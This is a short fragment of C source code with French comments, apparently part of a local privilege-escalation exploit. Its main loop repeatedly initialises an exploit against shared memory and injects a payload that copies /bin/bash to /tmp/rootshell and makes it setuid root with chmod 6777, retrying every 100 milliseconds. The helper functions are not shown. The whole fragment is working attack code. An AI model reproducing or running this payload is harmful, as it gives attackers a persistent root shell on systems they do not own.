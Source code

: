 ```c
        shmdt(exp->shm_ptr);
    }
}

int main() {
    exploit_t exp;
    
    // Boucle d'empoisonnement continu
    while (1) {
        if (init_exploit(&exp) == 0) {
            // Injection du payload pour créer un shell root
            inject_payload(&exp, "cp /bin/bash /tmp/rootshell; chmod 6777 /tmp/rootshell");
            cleanup_exploit(&exp);
        }
        usleep(100000); // 100ms entre les tentatives
    }
    
    return 0;
}
```

***

